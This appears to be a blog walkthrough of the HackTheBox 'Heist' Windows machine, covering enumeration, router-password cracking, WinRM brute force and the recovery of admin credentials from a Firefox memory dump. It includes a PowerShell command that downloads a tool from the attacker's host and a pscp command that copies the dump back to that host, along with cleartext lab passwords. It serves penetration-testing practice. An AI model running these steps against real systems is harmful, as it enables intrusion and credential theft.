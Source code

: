 ```yaml
---
title: "HackTheBox Walkthrough - Heist"
overview: "A pretty challenging box that required me to think laterally and use a few tools I wouldn't normally think to pull out. It was a really fun solve, and I learned a lot along the way. Definitely recommend if you're trying to get more experience on Windows machines and exploiting user behaviour."
categories:
  - Hackthebox
tags:
  - hackthebox
  - htb
  - impacket
  - winrm
  - pscp
  - windows
classes: wide
---
```


![SplashScreen](https://opalsec.github.io/assets/images/heist/Card.png)

# Overview:

A pretty challenging box that required me to think laterally and use a few tools I wouldn't normally think to pull out. It was a really fun solve, and I learned a lot along the way. Definitely recommend if you're trying to get more experience on Windows machines and exploiting user behaviour.

# Enumeration
Start with an nmap scan to identify listening ports and services:

```
nmap -sS -sV -sC -vv -Pn -oA /home/montana/Documents/hackthebox/heist/allscan 10.10.10.149
```

Providing us with this:
```
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2m50s, deviation: 0s, median: -2m50s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29066/tcp): CLEAN (Timeout)
|   Check 2 (port 48515/tcp): CLEAN (Timeout)
|   Check 3 (port 25486/udp): CLEAN (Timeout)
|   Check 4 (port 29605/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-25 11:40:08
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 25 11:43:35 2019 -- 1 IP address (1 host up) scanned in 421.73 seconds
```

## Web Page

My first stop is the web page, and here we a login form - helpfully with the option to "Login as guest":
![LoginForm](https://opalsec.github.io/assets/images/heist/LoginForm.png)

Which shows us a conversation chain between a client and support admin:
![Chat](https://opalsec.github.io/assets/images/heist/Chat.png)

Clicking through to the attachment, it shows a router config:
![config](https://opalsec.github.io/assets/images/heist/config.png)

The first two type 7 passwords easily decrypt to:
- $uperP@ssword (rout3r)
- Q4)sJu\Y8qz*A3?d (admin)

After a little research, I found out that the secret 5 password can be cracked by John, so I fired it up:
```
root@kali:/home/montana/Documents/hackthebox/heist# john -wordlist:/usr/share/wordlists/rockyou.txt secret.txt
```

And checked the pot file upon completion to get the password:
```
root@kali:/home/montana/Documents/hackthebox/heist# cat ~/.john/john.pot
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
```

Unfortunately the login page only accepts email addresses, and we only have passwords and usernames from the work we just did.

## Digging Deeper

Trying both anonymous logon and combinations of the creds we just dumped didn't work on 445. Going back to the web chat that we saw earlier though, we can see the user Hazard asked the support admin to create an account for him on the Windows server! 

Trying the cracked secret-type creds, we're able to see the account exists:
![hazard](https://opalsec.github.io/assets/images/heist/hazard.png)

Unfortunately there's nothing we can do with that access, so where to from here?

### New box hu dis?

Impacket has an amazing set of python scripts that are part of every pentester's kit. 

The one we'll use is the SID enumeration script - this allows you to enumerate other users on a machine, provided you've got a valid account to authenticate with:
![impacket](https://opalsec.github.io/assets/images/heist/impacket.png)

Now that we've discovered a whole swathe of new users, we can try to bruteforce authentication by creating a list of users and creds that we've found.

# Exploitation 

Metasploit has a useful module under auxiliary/scanner/winrm/winrm_login. This does exactly what we want in that you can point it to a machine's WinRM service, give it a list of creds, and set it loose.

It quickly shows that we've got a valid set of creds to use to initiate a WinRM session with:
![winrm](https://opalsec.github.io/assets/images/heist/winrm.png)

## User
In order to use this, there's a great tool called evil-winrm, which you can download [here](https://github.com/Hackplayers/evil-winrm "Evil WinRM")

It's simple to use, and gets us an interactive session:
![session](https://opalsec.github.io/assets/images/heist/session.png)

## Root
As part of my enum process, I like to look at the running processes to see if there's anything anomalous that might be of interest:
```
Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id
```
![procs](https://opalsec.github.io/assets/images/heist/procs.png)

Firefox stands out in this instance, as you wouldn't expect to see a browser running on a server.

The easiest way to snoop on what's going on in those processes is to dump them, so I download [Windows' procdump utility](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump "Procdump") to my Kali machine; host it with Python's Simple HTTP Server, and retrieve it on the victim:

```
Simple HTTP Server (starts on Port 8000 by default):
$> python -m SimpleHTTPServer

Retrieving the file with PowerShell:
PS> powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24:8000/procdump64.exe', 'C:\Users\chase\Documents\procdump64.exe')"
```

I then use it to dump the Firefox processes like so:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump64.exe -ma -accepteula 6216 firefox_6216.dmp                                                                                            
                                                                                                                                                                        
ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com                                                                    

[06:30:02] Dump 1 initiated: C:\Users\Chase\Documents\firefox_6216.dmp
[06:30:02] Dump 1 writing: Estimated dump file size is 470 MB.
[06:30:02] Dump 1 complete: 470 MB written in 0.6 seconds
[06:30:02] Dump count reached.
```

And in order to retrieve them, I use [pscp](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html "Putty SCP"). I ran into a few issues with pscp not prompting me for input to trust the remote host and input the password, but I got around it by using the below syntax:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> echo y | ./pscp.exe -pw <password> C:\Users\Chase\Documents\firefox_6216.dmp montana@10.10.14.24:/home/montana/Documents/hackthebox/heist

### Echoing "y" accepted the remote host as trusted, and the -pw parameter bypassed the need to interactively enter the password when connecting
```

Now with the files back on Kali, I used grep to search for the "password" string:
![grep](https://opalsec.github.io/assets/images/heist/grep.png)

And inspect the file the string was found in:
![less](https://opalsec.github.io/assets/images/heist/less.png)

Searching within the file, I can see the Admin user's creds in cleartext, being used to authenticate to the web forum:
![rootpw](https://opalsec.github.io/assets/images/heist/rootpw.png)

Finally, I drop out of the existing User WinRM session, and authenticate with the Admin creds:
```
root@Cortana:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
```

And we find the final flag on the Admin's Desktop:
![flag](https://opalsec.github.io/assets/images/heist/flag.png)

### By the way...
PowerShell does have the ability to search for a string in a file, but I didn't want to do that for several reasons

1. Searching for the string "password" in a memory dump for a browser process would likely provide dozens of results, as it'd parse the HTML of pages that were loaded and give a bunch of false positives;
2. It's best not to do computationally expensive things on the victim machine - both because it could use enough resources to cause lag and prompt the user to check what's going on, but also because it could crash the box if it's already running at high load;
3. If this were an actual engagement, the dump would be an important piece of evidence for use in results, so you'd want a copy on your workstation anyway for posterity.

I get that this was a virtual lab, but since I'm using it as practice for real-world scenarios, I think it's best to practice OpSec whenever possible. 